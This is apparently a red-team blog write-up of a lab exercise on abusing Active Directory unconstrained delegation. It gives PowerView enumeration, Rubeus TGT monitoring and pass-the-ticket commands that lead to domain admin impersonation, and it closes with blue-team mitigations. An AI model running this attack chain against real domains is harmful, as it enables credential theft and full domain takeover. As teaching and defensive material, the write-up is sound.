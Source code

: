 # 🛡️ Unconstrained Delegation in Active Directory  
### From a Penetration Testing Perspective

---

## 🔍 Introduction

In modern Active Directory (AD) environments, **Unconstrained Delegation** remains a commonly abused misconfiguration. It provides an easy path for privilege escalation and lateral movement, especially in internal penetration tests where attackers assume the breach scenario.

This blog documents a full scenario from a red team perspective, demonstrating how a compromised machine configured with unconstrained delegation can lead to Domain Admin compromise.

---

## 🤮 Lab Setup

- **Engagement Type:** Internal Active Directory Penetration Test  
- **Assessment Approach:** Assume Breach (Local Admin on host)  
- **Duration:** 2 Days  
- **Attacker Host:** `JOINEDDOMAIN2`

---

## 🔧 Step 1: Discover Unconstrained Delegation Machines

First, we import PowerView and PowerUp modules to enumerate AD objects:

```powershell
powershell -ep bypass
.\powerview.ps1
.\powerup.ps1
Get-DomainComputer -Unconstrained | Select-Object -ExpandProperty name
```

**Output:**

![Unconstrained Computers](sandbox:/mnt/data/19a35b0a-5a2a-4e14-81db-17a794d60ba7.png)

As seen, `JOINEDDOMAIN2` is among the systems configured with unconstrained delegation.

---

## 🌐 Step 2: Confirm NTLM Compatibility (for Kerberos Ticket Handling)

Ensure the target machine allows the usage of NTLMv2, which supports the Kerberos ticket handling used in our attack.

![NTLM Policy](sandbox:/mnt/data/7c470e2c-1710-40e5-9baa-ac25bc682616.png)

---

## ⌚ Step 3: Start TGT Monitoring with Rubeus

```powershell
.\Rubeus.exe monitor /interval:10 /filteruser:JOINEDDOMAIN2 /nowrap
```

Rubeus will monitor for incoming TGTs every 10 seconds.

![Rubeus Monitor Start](sandbox:/mnt/data/03326e15-4f59-44ca-92b3-c28df874e95c.png)

---

## 🚼 Step 4: Admin RDP Access (Victim Logs In)

Enable RDP on the victim machine (JOINEDDOMAIN2):

![Remote Desktop Enabled](sandbox:/mnt/data/ef7834e8-0733-42fb-8ac1-e3a42b1f3157.png)

Domain admin logs in via RDP:

![Domain Admin Login](sandbox:/mnt/data/b0940ad6-7d12-4fb6-834c-83c9bab34065.png)

Connection from domain controller using MARVEL\Administrator:

![RDP Connection to JOINEDDOMAIN2](sandbox:/mnt/data/6f1f91fb-402b-4015-8a7e-e79a5815d23f.png)

---

## 🕵️‍♂️ Step 5: TGT Captured by Rubeus

Once the Domain Admin logs in, Rubeus captures the TGT:

![Rubeus Captured Ticket](sandbox:/mnt/data/3136785b-0616-4c5e-9b87-2f4a4e176b53.png)

---

## 🚀 Step 6: Inject TGT and Assume Identity

Use the captured TGT to inject and impersonate the Domain Admin:

```powershell
.\Rubeus.exe ptt /ticket:BASE64TICKET==
```

Result:

![TGT Injected](sandbox:/mnt/data/287eb3a5-0040-44d1-8a66-7c02bfbbeff1.png)

---

## 🧐 Step 7: Explore Filesystem as Domain Admin

List contents of `Administrator` and `Pparker` profiles to demonstrate proof of access:

![Proof of Access](sandbox:/mnt/data/8ea07ade-79fb-4f2d-b2c5-354abd834491.png)

---

## 🚫 Mitigations for Blue Teams

- Audit delegation settings:
  ```powershell
  Get-ADComputer -Filter * -Properties TrustedForDelegation | Where-Object { $_.TrustedForDelegation -eq $true }
  ```
- Replace unconstrained delegation with **constrained** or **resource-based constrained delegation**.
- Restrict high-privilege accounts from logging into non-secure hosts.
- Monitor for tools like Rubeus using EDR solutions.

---

## 🚨 Conclusion

This scenario demonstrates how **Unconstrained Delegation**, although an old vulnerability, still leads to **Domain Admin compromise** in 2025 environments. It is a red team's low-effort, high-reward pathway when misconfigurations persist in internal networks.

**Lesson:** One RDP session to the wrong host can compromise your domain.

---

*Red Team Operator: Malek | Toolset: PowerView, PowerUp, Rubeus | Scenario: JOINEDDOMAIN2 Misconfiguration Exploitation*

